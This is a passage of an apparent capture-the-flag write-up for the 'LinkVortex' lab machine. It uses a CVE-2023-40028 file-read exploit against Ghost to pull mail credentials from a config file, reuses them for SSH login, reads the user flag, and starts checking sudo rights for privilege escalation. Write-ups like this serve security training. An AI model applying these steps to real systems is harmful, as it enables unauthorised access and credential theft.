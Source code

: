 This looks like a Docker container hostname. We try to read the config file in `/var/lib/ghost/config.production.json`. We choose this file as the Dockerfile copies the config file to this location:
```
COPY config.production.json /var/lib/ghost/config.production.json
```

We get the config file:
```bash
./CVE-2023-40028.py -u "admin@linkvortex.htb" -p"OctopiFociPilfer45" -h "http://linkvortex.htb"
/var/lib/ghost/config.production.json
```
```
File content:
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
```
We find credentials some credentials for `bob@linkvortex.htb`, we try to login as this `bob` via SSH with the password `fibber-talented-worth` and are successful:
```bash
ssh bob@linkvortex.htb
Password: fibber-talented-worth
whoami
```
```
bob
```

Now we can read the user flag:
```bash
cat /home/bob/user.txt
```
```
user flag value
```

## Root Exploitation

We check the sudo permissions for `bob`:
```bash
sudo -l
```
```
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
